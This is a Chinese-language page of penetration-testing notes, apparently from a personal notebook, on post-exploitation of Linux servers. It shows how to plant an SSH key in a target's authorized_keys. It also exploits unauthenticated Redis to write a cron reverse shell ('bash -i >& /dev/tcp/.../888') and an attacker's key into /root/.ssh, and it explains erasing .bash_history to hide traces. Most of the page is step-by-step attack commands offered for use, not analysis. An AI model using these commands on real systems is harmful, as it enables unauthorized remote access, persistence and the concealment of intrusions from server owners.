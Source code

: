 <a name="SUIei"></a>
### 查看路由
route <br />netstat -route <br />ip route 
<a name="bQbLp"></a>
### 免密钥登陆
在获得目标服务器账号密码的情况下进行免密钥登陆

本地：ssh-keygen<br />cd /root/.ssh<br />ssh-copy-id 服务器IP<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611332427761-4f2b92c5-fc66-4c5e-b1b9-97b3dab2c9f8.png#height=173&id=N7uPk&originHeight=346&originWidth=1088&originalType=binary&ratio=1&rotation=0&showTitle=false&size=348539&status=done&style=none&title=&width=544)<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614156489210-a5041fc6-3554-48f9-bfe9-da61f9777371.png#height=290&id=tK35z&originHeight=387&originWidth=747&originalType=binary&ratio=1&rotation=0&showTitle=false&size=15900&status=done&style=none&title=&width=560)

直接写入密钥<br />echo "插入id_rsa.pub文件里的内容" >>authorized_keys<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614915664367-4a5e4d7e-fb3d-4dff-b380-03f48365dcd0.png#height=121&id=Lwzil&originHeight=121&originWidth=1181&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23072&status=done&style=none&title=&width=1181)

# ssh-keygen<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626423508751-c9d22992-d5ea-496d-94d6-f6c4d7ed9127.png#height=270&id=p0O11&originHeight=359&originWidth=522&originalType=binary&ratio=1&rotation=0&showTitle=false&size=73230&status=done&style=none&title=&width=392)

y.pub是需要放置目标机子的authorized_keys里，而y是需要认证登陆的密钥<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626423541850-1c134905-ae2e-49ca-851b-0ee54aa3f72b.png#height=138&id=xEWUs&originHeight=184&originWidth=620&originalType=binary&ratio=1&rotation=0&showTitle=false&size=54659&status=done&style=none&title=&width=465)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626423599680-dd5d265b-a681-4eb2-bd37-64817c821843.png#height=212&id=yvtcS&originHeight=283&originWidth=576&originalType=binary&ratio=1&rotation=0&showTitle=false&size=73685&status=done&style=none&title=&width=432)

<a name="iq6u4"></a>
#### xshell生成密钥登陆
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1654675868713-42b5fd7d-117c-43bb-91aa-4d534790da61.png#clientId=ucf5c0608-56b9-4&from=paste&height=270&id=ua4bdce6e&originHeight=338&originWidth=250&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24509&status=done&style=none&taskId=u5c301857-f298-4932-9e00-49b9b77b709&title=&width=200)<br />然后点击生成，狂点下一步，就ok了，生成的pub文件，保存到目标的authorized_keys文件<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1654675813824-9e387387-22f4-4950-a603-53598cc81bda.png#clientId=ucf5c0608-56b9-4&from=paste&height=388&id=ua2e9d155&originHeight=485&originWidth=636&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17473&status=done&style=none&taskId=u2435cab6-7e58-4adf-ba25-8fe390b0226&title=&width=508.8)<br />这样子就可以登陆成功了<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1654675947806-c24c79cb-be5d-45af-a328-568f66576720.png#clientId=ucf5c0608-56b9-4&from=paste&height=638&id=u4a2fe40e&originHeight=798&originWidth=861&originalType=binary&ratio=1&rotation=0&showTitle=false&size=64390&status=done&style=none&taskId=uc939b18c-2936-48df-8762-2cede8072a0&title=&width=688.8)
<a name="grgA3"></a>
### reids未授权
```java
比如，当前用户名为root，我们就要将下面内容写入到 /var/spool/cron/root 中。(centos系列主机)

比如，当前用户名为root，我们就要将下面内容写入到 /var/spool/cron/crontabs/root 中。(debian系列主机)
```
反弹shell<br />redis 192.168.242.134:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.242.131/888 0>&1\n"<br />redis 192.168.242.134:6379> config set dir /var/spool/cron/<br />redis 192.168.242.134:6379> config set dbfilename root<br />redis 192.168.242.134:6379> save

-----------------------------------------------------------------------<br />1) 准备好自己的公钥，写入本地文件text.txt。<br />[root@localhost src]#ssh-keygen -t rsa    # 创建秘钥<br />[root@localhost src]#(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt<br /> <br />2) 通过redis将该文件写入内存<br />[root@localhost src]# ./redis-cli -h 192.168.242.134 flushall<br />[root@localhost src]# cat test.txt | redis-cli -h 192.168.242.134  -x  set  crackit    #链接redis 并将秘钥上传<br /> <br />3) 利用redis-cli 写入配置的方式将公钥写入到.ssh目录下<br />[root@localhost src]# redis-cli -h 192.168.242.134<br />192.168.242.134:6379> config set dir /root/.ssh/# 切到ssh目录去<br />192.168.242.134:6379> config get dir<br />192.168.242.134:6379> config set dbfilename "authorized_keys"# 保存到 authorized_keys 文件里<br />192.168.242.134:6379> save ssh -i id_rsa root@192.168.242.134# 保存并登陆<br />-------------------------------------------------------------------------------
<a name="4gQSN"></a>
### 清除痕迹
**vi进去 .bash_history 然后通过删除对应的历史记录，然后记得history -r更新一下，不然再看历史记录还是有的。**
